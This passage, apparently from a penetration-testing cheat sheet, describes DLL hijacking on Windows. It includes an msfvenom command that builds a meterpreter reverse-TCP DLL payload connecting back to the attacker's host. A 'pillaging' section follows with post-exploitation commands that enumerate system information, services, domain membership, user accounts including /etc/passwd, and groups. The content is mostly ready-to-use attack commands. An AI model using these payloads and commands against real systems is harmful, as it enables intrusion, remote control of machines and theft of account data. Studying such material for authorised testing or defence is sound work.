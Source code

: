 Check the results for paths where write permissions are given and drop your DLL with the *SAME NAME* as in the 'NAME NOT FOUND' result there

#### Creating a dll

With `msfvenom` use the `-f dll` option to create a dll  

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<myIP> LPORT=<myPort> -f dll > payload64.dll
```


## Pillaging

> Or harvesting all interesting data you may find

1. Getting general system information

```powershell
systeminfo  # Windows specific
```

```bash
meterpreter> sysinfo  # general for linux/windows
meterpreter> run post/windows/gather/*  # take the scripts as you need them
```

2. Check what services are running

```powershell
wmic service get Caption,StartName,State,pathname  # wmic - if installed
net start  # net - always available
```

```bash
service --status-all  # linux display of running services
```

3. Check if the machine is part of a domain (windows)

```powershell
net view /domain  # error if not part of domain
net group "Domain Controllers" /Domain  # error if not part of domain
```

4. Check the existing user accounts

```powershell
net user  # only local accounts!
net user /domain  # displays domain users, if part of domain
```

```bash
cat /etc/passwd
```

5. Check groups

```powershell
net localgroup  # local groups
net localgroup Administrators  # shows members of the Admin group
```
